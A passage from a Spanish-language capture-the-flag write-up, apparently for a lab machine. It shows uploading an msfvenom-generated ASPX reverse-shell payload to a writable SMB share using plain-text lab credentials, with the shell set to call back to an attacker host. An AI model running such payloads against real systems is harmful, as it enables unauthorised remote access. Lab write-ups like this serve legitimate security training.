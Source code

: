 ![](/assets/images/try-writeup-relevant/1.png)

Bueno si podemos escribir en el recurso talvez podamos ver los archivos en la web por el puerto que nos reporto `nmap` `49663`

Y si por que no da error

![](/assets/images/try-writeup-relevant/2.png)

Sabiendo esto podemos subir directamente un archivo `.aspx` para ganar acceso al sistema

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.28.226 LPORT=443 -f aspx -o ziz.aspx
```

```bash
❯ smbclient //10.10.26.76/nt4wrksv -U Bill --password Juw4nnaM4n420696969
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Apr  5 15:06:32 2023
  ..                                  D        0  Wed Apr  5 15:06:32 2023
  passwords.txt                       A       98  Sat Jul 25 10:15:33 2020

		7735807 blocks of size 4096. 4949082 blocks available
smb: \> put ziz.aspx
putting file ziz.aspx as \ziz.aspx (2.3 kb/s) (average 2.3 kb/s)
smb: \> 
```
